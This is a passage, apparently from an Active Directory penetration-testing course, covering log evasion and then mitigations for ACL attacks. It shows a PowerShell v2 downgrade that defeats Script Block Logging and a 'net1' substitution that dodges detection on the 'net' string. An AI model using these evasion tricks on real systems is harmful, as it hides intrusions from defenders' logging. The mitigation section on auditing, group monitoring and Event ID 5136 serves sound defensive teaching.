With [Script Block Logging](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2) enabled, we can see that whatever we type into the terminal gets sent to this log. If we downgrade to PowerShell V2, this will no longer function correctly. Our actions after will be masked since Script Block Logging does not work below PowerShell 3.0.

```powershell
powershell.exe -version 2
```

PowerShell Operational Logs are kept under under `Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`.
Also the `Windows PowerShell` log is located at `Applications and Services Logs > Windows PowerShell`.

#### Net Commands Trick

Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string. Example:

```powershell
net1 user /domain	
```


## Mitigations

1. `Auditing for and removing dangerous ACLs`

Organizations should have regular AD audits performed but also train internal staff to run tools such as BloodHound and identify potentially dangerous ACLs that can be removed.

2. `Monitor group membership`

Visibility into important groups is paramount. All high-impact groups in the domain should be monitored to alert IT staff of changes that could be indicative of an ACL attack chain.

3. `Audit and monitor for ACL changes`

Enabling the [Advanced Security Audit Policy](https://docs.microsoft.com/en-us/archive/blogs/canitpro/step-by-step-enabling-advanced-security-audit-policy-via-ds-access) can help in detecting unwanted changes, especially [Event ID 5136: A directory service object was modified](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5136) which would indicate that the domain object was modified, which could be indicative of an ACL attack. If we look at the event log after modifying the ACL of the domain object, we will see some event ID `5136` created. If we check out the `Details` tab, we can see that the pertinent information is written in [Security Descriptor Definition Language (SDDL)](https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language) which is not human readable.

We can use the [ConvertFrom-SddlString cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/convertfrom-sddlstring?view=powershell-7.2) to convert this to a readable format.

```powershell
# Converting the SDDL String into a Readable Format
ConvertFrom-SddlString "O:BAG:BAD:AI(D;;DC;;;WD)(OA;CI;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CR;00299570-246d-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;CCDCLC;c975c901-[CUT]" 
```
